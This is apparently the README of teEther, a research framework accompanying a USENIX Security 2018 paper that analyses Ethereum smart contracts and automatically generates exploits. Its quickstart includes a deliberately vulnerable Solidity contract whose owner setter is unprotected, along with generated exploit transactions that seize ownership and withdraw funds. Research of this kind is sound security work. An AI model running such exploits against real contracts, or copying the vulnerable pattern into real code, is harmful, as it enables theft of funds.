 # teEther - Analysis and automatic exploitation framework for Ethereum smart contracts

teEther is an analysis tool for Ethereum smart contracts.
It can
* [disassemble EVM bytecode](./teether/cfg/disassembly.py#L13)
* [perform backward slicing](./teether/slicing.py#L123)
* [execute EVM bytecode](./teether/evm/evm.py#L31)
* [execute EVM bytecode **symbolically**](./teether/evm/evm.py#L290)
* [plot nice CFGs](./bin/plot_cfg.py)
* [create exploits for vulnerable smart contracts](./bin/gen_exploit.py)

## Quickstart

1. Install `teEther`
```bash
python setup.py install
```

2. Write your vulnerable smart contract
```solidity
pragma solidity ^0.4.0;

contract Test{

    struct Transaction{
        address to;
        uint amount;
    }

    mapping (bytes32 => Transaction) transactions;

    address owner;
    
    function set_owner(address new_owner){
        owner = new_owner;
    }
    
    function new_transaction(address to, uint amount) returns (bytes32){
        bytes32 token = sha3(to, amount);
        Transaction storage t = transactions[token];
        t.to = to;
        t.amount += amount;
        return token;
    }
    
    function approve(bytes32 token){
        require(owner == msg.sender);
        Transaction storage t = transactions[token];
        t.to.transfer(t.amount);
        delete transactions[token];
    }
    
}
```

3. Compile your contract
```
$ solc --bin test.sol | tail -n1 > test.code
```

4. Extract the deployed contract code
```
$ python scripts/extract_contract_code.py test.code > test.contract.code
```

5. Generate an exploit
```
$ python scripts/gen_exploit.py test.contract.code 0x1234 0x1000 +1000

...
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x7cb97b2b0000000000000000000000000000000000000000000000000000000000001234", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x0129ab2700000000000000000000000000000000000000000000000000000000000012340000000000000000000000000000000000000000000000016bc75e2d63100103", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0xa53a1adfce9e2ef9fe2568f35b22f98bb749862a13e0abd291c6ba4967016d629412829d", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
```

## Academia

Our paper [**teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts**](https://publications.cispa.saarland/2612/1/main.pdf) was published at the [27th USENIX Security Symposium (Usenix Security 18)](https://www.usenix.org/conference/usenixsecurity18/presentation/krupp) ([slides](https://www.usenix.org/sites/default/files/conference/protected-files/security18_slides_krupp.pdf), [video](https://www.youtube.com/watch?v=mW4jQzPVP_A)).

```bibtex
@inproceedings{teEther2018,
          author = {Johannes Krupp and Christian Rossow},
       publisher = {USENIX Association},
       booktitle = {27th USENIX Security Symposium (USENIX Security 18)},
            year = {2018},
           title = {{teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts}},
             url = {https://publications.cispa.saarland/2612/},
}
```
